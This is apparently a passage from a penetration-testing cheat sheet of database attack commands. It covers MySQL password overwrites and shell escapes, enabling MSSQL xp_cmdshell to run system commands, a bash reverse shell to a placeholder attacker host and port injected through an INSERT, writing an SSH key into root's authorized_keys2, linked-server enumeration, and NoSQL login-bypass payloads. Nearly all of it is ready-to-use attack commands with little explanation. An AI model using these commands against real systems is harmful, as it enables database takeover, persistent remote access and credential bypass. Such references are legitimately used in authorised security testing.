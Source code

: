 ##### Update User Password

```c
mysql> update user set password = '37b08599d3f323491a66feabbb5b26af' where user_id = 1;
```

##### Drop a Shell

```c
mysql> \! /bin/sh
```

##### xp_cmdshell

```c
SQL> EXEC sp_configure 'Show Advanced Options', 1;
SQL> reconfigure;
SQL> sp_configure;
SQL> EXEC sp_configure 'xp_cmdshell', 1;
SQL> reconfigure
SQL> xp_cmdshell "whoami"
```

```c
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami
```

##### Insert Code to get executed

```c
mysql> insert into users (id, email) values (<LPORT>, "- E $(bash -c 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1')");
```

##### Write SSH Key into authorized_keys2 file

```c
mysql> SELECT "<KEY>" INTO OUTFILE '/root/.ssh/authorized_keys2' FIELDS TERMINATED BY '' OPTIONALLY ENCLOSED BY '' LINES TERMINATED BY '\n';
```

##### Linked SQL Server Enumeration

```c
SQL> SELECT user_name();
SQL> SELECT name,sysadmin FROM syslogins;
SQL> SELECT srvname,isremote FROM sysservers;
SQL> EXEC ('SELECT current_user') at [<DOMAIN>\<CONFIG_FILE>];
SQL> EXEC ('SELECT srvname,isremote FROM sysservers') at [<DOMAIN>\<CONFIG_FILE>];
SQL> EXEC ('EXEC (''SELECT suser_name()'') at [<DOMAIN>\<CONFIG_FILE>]') at [<DOMAIN>\<CONFIG_FILE>];
```

#### NoSQL Injection

```c
admin'||''==='
{"username": {"$ne": null}, "password": {"$ne": null} }
```
